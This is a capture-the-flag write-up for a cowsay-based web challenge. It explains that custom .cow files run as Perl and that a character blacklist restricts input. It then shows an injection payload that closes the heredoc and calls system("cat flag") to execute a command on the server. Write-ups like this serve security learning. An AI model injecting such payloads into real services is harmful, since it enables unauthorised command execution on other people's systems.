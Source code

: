 # mooo

## Solution 
A web service that allows the usage of [cowsay](https://packages.ubuntu.com/bionic/cowsay).

![](./moo0.png)

The second option in the "Cow" dropdown list is "custom" and will take you to `/cow_designer`

![](./moo1.png)

Looking at one of the default `.cow` files reveals the following format:

```Perl
$the_cow = <<"EOC";
        $thoughts   ^__^
         $thoughts  ($eyes)\\_______
            (__)\\       )\\/\\
             $tongue ||----w |
                ||     ||
EOC

```

Cowsay uses Perl and when you use a custom cow file the Perl code in that file gets executed before the cow is printed.
Due to several characters being blacklisted (`@, {, }, [ and ]` and `$ except when using $thoughts, $eyes or $tongue`) we need to first end the `$the_cow` string with `EOC` before we can inject Perl code.

To print the flag we can use:

```Perl
EOC
system("cat flag");
```
 as payload.

 ![](./moo2.png)